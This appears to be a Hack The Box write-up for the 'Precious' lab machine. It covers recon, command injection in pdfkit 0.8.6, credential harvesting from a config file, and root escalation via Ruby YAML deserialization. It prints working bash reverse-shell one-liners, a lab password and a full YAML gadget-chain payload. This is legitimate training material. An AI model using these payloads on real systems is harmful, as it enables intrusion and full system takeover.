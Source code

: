 ```yaml
---
layout: post
title: HTB - Precious
tags: [Linux, HTB, HTB-Easy, Ruby, pdfkit]
---
```



## Summary
![Box Info](/assets/img/precious/precious.png)

## Enumeration
Starting with a nmap full port scan to discover open ports:\
`sudo nmap -sC -sV -Pn -On enum/precious.nmap -v -p- 10.10.11.189`

Open ports:
- 22 - SSH
- 80 - Web Server

### Web application
The webapp allows to convert HTML pages into pdf files and the URL is controlled by the user.

\#todo: insert screen

I tried to connect to my host to see what kind of HTTP request the server was making:
```bash
$ sudo nc -nvlp 80    
listening on [any] 80 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 54878
GET /aaa HTTP/1.1
Host: 10.10.16.19
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```
From the User-Agent header I know that **wkhtmltopdf** was used but I cannot find anything useful to exploit this version, so, I tried to convert a page to see the result.
Checking the dev console on the generated PDF page I noted a log which contains the software and the version used (pdfkit v0.8.6)

![Pdfkit](/assets/img/precious/pdf-kit-version.png)

## Gain access

### PdfKit RCE
PdfKit v0.8.6 is vulnerable to RCE ([Vuln Description](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) if the URL contains a query parameter named `name` which contains a URL encoded char and a query string substitution shell command.

I used this url in the webapp input and I got back a reverse shell
```
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.19/9000 0>&1"`'}
```


```bash
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 46934
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ 
```

The shell was executed as `ruby` user. So I needed to escalate my privileges.
I checked the `/etc/passwd` file:

```bash
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

## Privilege Escalation to henry
The target user is `henry`. I checked services executed by this user but I didn't found anything useful.\
I started searching for credentials and in ruby's home there was a file in `.bundle/` with `henry` credentials.

```bash
$ cat /home/ruby/.bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Use this credentials to login in SSH as henry and grab user flag

## Privilege Escalation to root
User henry can execute a specific ruby command as root:

```bash
$ sudo -l
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
The file `update_dependecies.rb` read a yaml file in the pwd called dependencies.yml (an example is stored in /opt/sample)

Ruby YAML module load function is vulnerable to RCE: [Vuln Description + PoC](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

Use this input in dependecies.yml to obtain a reverse shell as root:
```yaml
---
- !ruby/object:Gem::Installer
	i: x
- !ruby/object:Gem::SpecFetcher
	i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: "bash -c 'bash -i >& /dev/tcp/<myip>/9000 0>&1'"
method_id: :resolve
```

```bash
# On the box
$ sudo ruby /opt/update_dependencies.rb
...
# On my host
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 54586
root@precious:/root#
```

Now we can grab root flag!